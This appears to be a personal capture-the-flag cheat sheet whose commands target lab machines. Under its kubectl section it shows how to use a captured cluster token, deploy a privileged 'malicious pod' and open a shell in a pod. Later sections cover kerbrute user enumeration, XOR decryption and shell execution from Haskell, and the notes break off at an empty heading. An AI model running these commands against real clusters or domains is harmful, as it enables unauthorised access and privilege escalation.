 ## Kubectl

References:

https://www.inguardians.com/attacking-and-defending-kubernetes-bust-a-kube-episode-1/

https://rioasmara.com/2021/09/18/kubernetes-yaml-for-reverse-shell-and-map-root/

https://github.com/BishopFox/badPods/tree/main/manifests/everything-allowed

```bash
 kubectl --token=` cat token` --certificate-authority=/home/arundhanush/CTF/THM/palsforlife/ca.crt --server=https://10.10.34.60:6443 auth can-i --list \\ to check list

 kubectl --token=` cat token` --certificate-authority=/home/arundhanush/CTF/THM/palsforlife/ca.crt --server=https://10.10.34.60:6443 get pods , nodes, namespaces -o yaml \\ to get yaml output of pods, namespaces, and nodes

 kubectl --token=` cat token` --certificate-authority=/home/arundhanush/CTF/THM/palsforlife/ca.crt --server=https://10.10.210.227:6443 apply -f everything-allowed-exec-pod.yaml \\ malicious pod upload
                                                                                                                                                    
 kubectl --token=` cat token` --certificate-authority=/home/arundhanush/CTF/THM/palsforlife/ca.crt --server=https://10.10.34.60:6443 exec -it nginx-7f459c6889-8slv2 /bin/bash \\ execute pod as bash

```

## Kerbrute

kerbrute userenum -d outdated.htb --dc DC.outdated.htb users.txt


## xor

cat encrypted.txt| python2 xor.py securewebincrocks

https://github.com/ShawnDEvans/xorpy/blob/master/xor.py


xortool encrypted.txt -b
    securewebincrocks


## Haskell

haskell is fiction programming language's bash cmd exec

```
import System.Process

main = callCommand "cp somefile somedestination"
```

https://stackoverflow.com/questions/3470955/executing-a-system-command-in-haskell

## Find paticular file
